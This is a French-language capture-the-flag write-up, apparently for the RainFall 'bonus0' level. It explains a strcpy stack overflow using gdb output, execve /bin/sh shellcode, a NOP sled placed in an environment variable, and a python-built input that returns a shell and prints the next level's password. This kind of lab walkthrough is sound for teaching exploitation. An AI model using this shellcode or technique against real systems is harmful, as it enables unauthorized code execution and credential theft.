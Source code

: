 
# Bonus 0

En ouvrant le programme dans cuter on ce rend compte qu'il y a 2 fonction `p` et `pp` le programe attend 2 chaine de caractere en parametre qu'il concate, on remarque egalement qu'il ya un `strcpy` qu'on pout tenter d'overflow.

Le programe ne contient pas de `cat .pass` ou de `/bin/sh` il va donc faloir utiliser un shellcode vu precedament
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```
La premiere chose a faire est donc de chercher un `segfault` pour ce faire nous allons utiliser un buffer overflow generator comme dans l'exercice 2 https://wiremask.eu/tools/buffer-overflow-pattern-generator/
```
(gdb) run
Starting program: /home/user/bonus0/bonus0
-
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
-
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���
 
Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
(gdb)
```
En entrant `0x41336141` dans le générateur on trouve un offset de 9 octet, en testant on ce rend compte que c'est la 2nd chaine qui `segfault`. Etant donner que le buffer est trop petit pour y mettre le payload il va faloir creer une variable d'environement que nous allons remeplire ed `\90` qui est l'opperateur logique de NOP
```
bonus0@RainFall:~$ export payload=$(python -c 'print "\x90"*500+"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```
et on vas aller chercher dans le programe une addresse du nopslid de notre variable d'environement, qui vas executer des NOP jusqu'a ce qu'il arrive a notre shellcode
```
bonus0@RainFall:~$ gdb ./bonus0
gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0
  
Breakpoint 1, 0x080485a7 in main ()
(gdb) x/200s environ
[...]
0xbffffc92: "payload=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbffffd5a: "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\
---Type <return> to continue, or q <return> to quit---
20\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbffffe22: "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
0xbffffea4: "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
[...]
```
On trouve que le read utiliser un peu plus tard dans cutter, a une size de 4096 (`0x1000`), et on ajoute des caracteres en plus pour atteindre la limite du buffer. Il faut ajouter un \n pour separer nos deux entrees, on le met alors a limite du buffer utiliser par le read (a * 4095) + '\n' + (a* 9) + L'adresse du nopesled
```
bonus0@RainFall:~$ python -c 'print "a" * 4095+"\n"+ "a"*9+"\x5a\xfd\xff\xbf" + "a"*30' > /tmp/payload1
bonus0@RainFall:~$ cat /tmp/payload1 - | ./bonus0
-
-
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaZ���aaaaaaa��� aaaaaaaaaZ���aaaaaaa���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```